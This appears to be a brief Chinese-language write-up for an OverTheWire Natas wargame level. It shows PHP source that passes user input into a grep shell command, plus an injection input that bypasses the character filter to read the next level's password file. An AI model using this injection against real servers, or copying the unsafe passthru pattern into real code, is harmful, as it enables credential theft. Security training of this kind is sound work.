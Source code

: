 ![img](img/image_20250103-220313.png)

看看源码

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

直接过就行

```plaintext
. /etc/natas_webpass/natas11
```
